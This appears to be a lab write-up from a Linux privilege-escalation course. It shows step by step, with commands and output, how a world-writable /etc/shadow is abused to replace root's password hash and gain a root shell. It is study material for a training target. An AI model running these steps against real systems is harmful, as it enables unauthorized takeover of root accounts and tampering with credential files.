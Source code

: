 ```yaml
---
category: Uncategorized
tags: []
---
```

1. Check the permissions of the /etc /shadow file:
2. 
3.  ![[Pasted image 20211230133000.png]]


```bash - target
./lse.sh -l 1 -i | more
```

```bash - target
ls -l /etc/shadow
```

>-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

Note that it is world writable.

2. Copy / save the contents of /etc/shadow so we can restore it later.

3. Generate a new SHA-512 password hash:

```bash - kali
mkpasswd -m sha-512 newpassword
```

```bash - kali
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s

password hash with the one we generated.

```bash - target
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user,

entering the new password when prompted:

```bash - target
su
```

```bash - target
newpassword
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)













